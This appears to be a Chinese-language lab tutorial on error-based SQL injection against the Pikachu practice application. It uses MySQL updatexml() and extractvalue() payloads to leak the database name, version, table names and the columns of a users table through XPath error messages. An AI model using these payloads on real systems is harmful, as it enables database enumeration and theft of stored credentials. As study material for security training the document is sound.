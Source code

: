 ```sql
ExtractValue(xml_frag, xpath_expr)
#此函数是返回在xml_frag用xpath_expr路径匹配到的XML片段。
```

```sql
concat(input_string1, input_string2 [, input_stringN ])
#使用CONCAT()函数可将两个或多个字符串连接成一个字符串
#如果传递非字符串值，CONCAT()函数将在连接之前将这些值隐式转换为字符串。
```

注入原理：

1. 在 UpdateXML()、ExtractValue()函数中，当参数 xpath_expr 路径语法错误时，就会报错，将 xpath_expr 中内容当作 sql 语句执行后结果和报错结果一同返回。

查看数据库名：

```sql
'
1' or updatexml(1,concat('~',database()),0) or' # '~'=0x7e
```

回显：XPATH syntax error: '~pikachu'

查看数据库版本：

```sql
'
1' or updatexml(1,concat('~',version()),0) or'
```

回显：XPATH syntax error: '~5.7.27-log'

查看数据库中表名：

```sql
'
# 两种方式第一个and不能改为or
1' and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='pikachu')),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='pikachu'))) or'
```

回显：XPATH syntax error: '~httpinfo,member,message,users,x'

查看表中 column 名：

```sql
'
1' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users')),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'))) or'
```

回显：XPATH syntax error: '~id,username,password,level'
